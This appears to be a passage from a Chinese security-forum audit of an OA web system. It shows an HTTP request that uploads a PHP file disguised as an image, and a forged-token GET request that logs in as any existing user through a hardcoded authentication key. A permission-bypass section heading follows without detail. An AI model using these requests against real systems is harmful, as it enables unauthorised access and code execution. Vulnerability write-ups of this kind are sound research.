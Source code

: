 ```xml
------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="FileData"; filename="222.php"
Content-Type: image/png

&lt;?php phpinfo();?&gt;
------WebKitFormBoundaryQayVsySyhSwgpmLk--

```

‍

任意用户登录
------

在上传的篇章中其实是可以知道架构的，所以看了下`oa`​下的文件，发现`Auth`​的鉴权控制器查看后发现存在硬编码

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-8dc2614c8c8d6596789a2e9bb66e063bd074d335.png)​

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cc8a1f82dc656d48347d056971f97f4e723aaef8.png)​​

当然也给了注释

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-564e970b423cddc7f44736f055358801117b2707.png)​​

那么构造逻辑即可成功登录，传入`user`​ base64加密的内容并且跟key进行拼接后再md5加密传为`token`​， 两者相等即可登录

前提是user是存在的(跑一下就知道是zhangsan存在)

```xml
GET /oa/auth/withub?user=emhhbmdzYW4=&amp;token=b336aa3ea64e703583bb7cbe6d924269 HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# user zhangsan
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bd4ff8b7e5ae831e168ba9c3723b47c20266416c.png)​​

直接跳转即可登录了​​

‍

权限绕过
----

这个地方我只能直接封神@up哥 ，我第一次审，没看出来，第二次审，也没看出来，告诉我是权限绕过，我也没审计出来(建议重开)
